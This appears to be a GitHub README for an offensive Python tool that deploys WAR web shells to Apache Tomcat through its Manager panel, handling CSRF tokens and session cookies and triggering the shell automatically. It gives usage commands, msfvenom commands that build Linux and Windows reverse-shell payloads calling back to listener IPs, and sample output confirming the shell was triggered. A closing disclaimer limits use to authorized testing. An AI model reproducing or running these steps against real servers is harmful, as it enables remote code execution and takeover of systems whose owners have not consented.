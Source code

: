 # ☢️ Tomcat WAR File Uploader

A Python tool to upload `.war` web shells to Apache Tomcat via the Manager interface (`/manager/html`). Automatically handles CSRF protection and session cookies.
(Tested on Apache Tomcat/9.0.53)

## 🔧 Features

- Uploads WAR files to a Tomcat server
- Automatically extracts `JSESSIONID` and `CSRF_NONCE`
- Validates credentials before upload
- Triggers the uploaded shell if deployment succeeds

---

## 📦 Requirements

- Python 3.x
- `requests`
- `beautifulsoup4`

Install dependencies:

```bash
pip install -r requirements.txt
```

Or manually:

```bash
pip install requests beautifulsoup4
```

---

## 🚀 Usage

```bash
python3 tomcat_war_uploader.py --url http://<target>:8080 --username <user> --password <pass> --war-file shell.war
```

### Arguments

| Argument                  | Description                                                            |
|---------------------------|------------------------------------------------------------------------|
| `--url`                   | **(Required)** Base URL of the Tomcat server (e.g., `http://10.10.10.10:8080`) |
| `--username`              | **(Required)** Tomcat Manager username                                |
| `--password`              | **(Required)** Tomcat Manager password                                |
| `--war-file`              | WAR file to upload (default: `plugin.war`)                            |
| `--manager-panel`         | Manager panel path (default: `/manager/html`)                         |
| `--validate-credentials`  | Only validate credentials and exit (no upload)                        |

---

## 🧪 Examples

### Upload a WAR file

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --war-file shell.war
```

### Validate credentials only

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --validate-credentials
```

---

## 🎯 Generating a Reverse Shell with `msfvenom`

You can generate a `.war` file payload using `msfvenom` for either Linux (JSP-based) or Windows (EXE wrapped as `.war`):

### 🔹 For Linux (JSP reverse shell):

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.122 LPORT=443 -f war -o revshell.war
```

### 🔹 For Windows (EXE reverse shell wrapped in WAR):

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.83 LPORT=9002 -f war > revshell.war
```

> ⚠️ For Windows payloads, make sure the target Tomcat server supports deploying `.exe` via WAR.

---

---

## ✅ Output

```text
[+] Parsed CSRF token: A1B2C3D4E5F6...
[+] War file uploaded successfully
[+] Shell triggered. Check your listener
```

---

## ⚠️ Disclaimer

This script is intended for **educational and authorized security testing purposes only**. Do **not** use it against systems without explicit permission.
